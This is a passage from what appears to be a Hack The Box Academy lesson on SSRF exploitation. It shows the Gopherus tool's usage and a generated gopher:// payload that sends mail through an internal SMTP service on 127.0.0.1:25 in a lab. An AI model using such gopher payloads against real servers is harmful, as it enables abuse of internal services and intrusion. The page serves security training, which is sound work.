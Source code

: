 - MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache

To run the tool, we need a valid Python2 installation. Afterward, we can run the tool by executing the Python script downloaded from the GitHub repository:

```shell
gitblanc@htb[/htb]$ python2.7 gopherus.py

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
```

Let us generate a valid SMTP URL by supplying the corresponding argument. The tool asks us to input details about the email we intend to send. Afterward, we are given a valid gopher URL that we can use in our SSRF exploitation:

```shell
gitblanc@htb[/htb]$ python2.7 gopherus.py --exploit smtp

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


Give Details to send mail: 

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail: 

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r-----------
```
